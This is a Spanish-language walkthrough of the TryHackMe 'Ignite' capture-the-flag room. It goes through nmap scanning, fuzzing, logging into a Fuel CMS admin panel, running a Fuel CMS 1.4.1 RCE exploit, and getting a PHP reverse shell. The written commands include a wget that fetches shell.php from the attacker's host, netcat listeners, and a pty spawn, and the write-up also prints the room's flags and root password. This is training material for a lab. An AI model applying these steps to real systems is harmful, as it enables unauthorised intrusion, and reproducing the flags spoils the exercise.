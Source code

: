 # Ignite 

https://tryhackme.com/room/ignite

## NMAP

Hacemos un escaneo con `nmap` para ver las versiones también.

```
nmap -sV 10.10.98.176
```

![Imagen](images/Pasted%20image%2020250128103258.png)

Sólo escanea los puertos más comunes por defecto así que usamos la opción `-p-` para probar con todos.

Para detectar el SO y la versión del mismo usamos `-O`:

```
sudo nmap -sV -O 10.10.98.176
```
No nos da resultados y es algo normal que eso suceda.

También podemos modificar los tiempos entre los paquetes para que sea más difícil detectarlos. El modo 5 es el más agresivo y el 1 es el más "paranoico". Entre 3 y 4 es lo más normal y está en t3 por defecto.

```
sudo nmap -sV -O -T4 10.10.98.176
```

![Imagen](images/Pasted%20image%2020250204105623.png)

## Fuzzing 

Accedemos a la página web y usamos `DirBuster` para hacer fuzzing a la URL mientras seguimos inspeccionando el contenido de la página.

![Imagen](images/Pasted%20image%2020250212170404.png)

Descubrimos un login:

![Imagen](images/Pasted%20image%2020250212170436.png)

El fuzzing nos da los mismos resultados:

![Imagen](images/Pasted%20image%2020250212170557.png)

## /fuel/

Accedemos pues a `/fuel` y entramos con el usuario y contraseñas indicados.

![Imagen](images/Pasted%20image%2020250212170659.png)

Accedimos a un panel de administración del sitio web.

![Imagen](images/Pasted%20image%2020250212170830.png)

En la pestaña de `assets` podemos subir un archivo.

![Imagen](images/Pasted%20image%2020250212172318.png)

Nos aprovecharemos de esto ahora mismo.

## Reverse Shell

Usaremos la siguiente reverse shell de PHP:

https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

La modificamos con la IP de la VPN de nuestro Kali y el puerto 4444:

![Imagen](images/Pasted%20image%2020250212172546.png)

La página sólo permite subir archivos .zip pero podemos hacer que se descompriman automáticamente al subirlos.



Ponemos en escucha el puerto 4444:

```
nc -lvnp 4444
```

## exploit-db

Buscamos la vulnerabilidad de "fuel CMS" y encontramos la de la versión 1.4.1 de Remote Code Execution.

![Imagen](images/Pasted%20image%2020250212172655.png)

Nos descargamos el exploit.

![Imagen](images/Pasted%20image%2020250212172715.png)

Lo ejecutamos con el siguiente comando y accedemos al sistema finalmente.

![Imagen](images/Pasted%20image%2020250212172759.png)

Aunque es una shell muy limitada actualmente, no nos permite hacer casi nada.

Buscamos pues una reverse shell de php.

![Imagen](images/Pasted%20image%2020250220172524.png)

Nos la descargamos y editamos unos parámetros. La IP es la de nuestro Kali en la VPN de Tryhackme, 10.8.3.33 y el puerto 5000.

![Imagen](images/Pasted%20image%2020250220172721.png)

Abrimos una consola de`netcat`en escucha para el puerto 5000.

```
nc -lvnp 5000 
```

![Imagen](images/Pasted%20image%2020250220172838.png)

También abrimos un servidor http con Python por el puerto 9000.

```
python3 -m http.server 9000
```

>IMPORTANTE: La reverse shell de php que vamos a utilizar tiene que estar en la misma carpeta desde la que abrimos el servidor de python.

![Imagen](images/Pasted%20image%2020250220173032.png)

Hacemos clic en "RAW" en la página de github de antes de la reverse shell de php y copiamos la URL. 

![Imagen](images/Pasted%20image%2020250220173141.png)

```
https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php
```

Nos descargamos en el servidor la reverse shell que editamos.

```
wget http://10.8.3.33:9000/shell.php
```

![Imagen](images/Pasted%20image%2020250220174600.png)

![Imagen](images/Pasted%20image%2020250220174600.png)

Accedemos a la URL del archivo que hemos subido de php. La página se quedará cargando cuando se haya establecido la conexión.
![Imagen](images/Pasted%20image%2020250220174734.png)

En el puerto que abrimos en escucha con `netcat`hemos establecido la conexión.

![Imagen](images/Pasted%20image%20250220180034.png)

Obtenemos la primera **flag**:

![Imagen](images/Pasted%20image%2020250220178225.png)

```
6470e394cbf6dab6a91682cc8585059b
```

## Escalada de privilegios

Ahora vamos a hacer una escalada de privilegios. Nos dirigimos a la siguiente ruta donde está la base de datos.

```
cd /var/www/html/fuel/application/config
```

Y mostramos el fichero `database.php`. En él están las credenciales del usuario `root`.

![Imagen](images/Pasted%20image%2020250220170945.png)

Hacemos más interactiva la terminal con el siguiente comando de python:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Accedemos ahora si al usuario `root`.

```
su root
```

Y la contraseña es `mememe`.

![Imagen](images/Pasted%20image%2020250220172137.png)

Finalmente, obtenemos la última flag que se encuentra en la carpeta `root`y en el fichero `root.txt`.

![Imagen](images/Pasted%20image%2020250220172314.png)

```
b9bbcb33e11b80be759c4e844862482d
```





























